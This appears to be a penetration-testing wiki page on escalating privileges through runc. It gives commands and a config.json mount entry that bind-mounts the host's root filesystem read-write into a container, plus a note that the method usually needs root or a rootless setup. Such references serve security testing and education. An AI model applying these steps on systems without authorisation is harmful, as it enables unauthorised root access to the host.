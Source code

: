 # RunC Privilege Escalation

## Basic information

If you want to learn more about **runc** check the following page:

{% page-ref page="../../pentesting/2375-pentesting-docker.md" %}

## PE

If you find that `runc` is installed in the host you may be able to **run a container mounting the root / folder of the host**.

```bash
runc -help #Get help and see if runc is intalled
runc spec #This will create the config.json file in your current folder

Inside the "mounts" section of the create config.json add the following lines:
{
    "type": "bind",
    "source": "/",
    "destination": "/",
    "options": [
        "rbind",
        "rw",
        "rprivate"
    ]
},

#Once you have modified the config.json file, create the folder rootfs in the same directory
mkdir rootfs

# Finally, start the container
# The root folder is the one from the host
runc run demo
```

{% hint style="danger" %}
This won't always work as the default operation of runc is to run as root, so running it as an unprivileged user simply cannot work \(unless you have a rootless configuration\). Making a rootless configuration the default isn't generally a good idea because there are quite a few restrictions inside rootless containers that don't apply outside rootless containers.
{% endhint %}

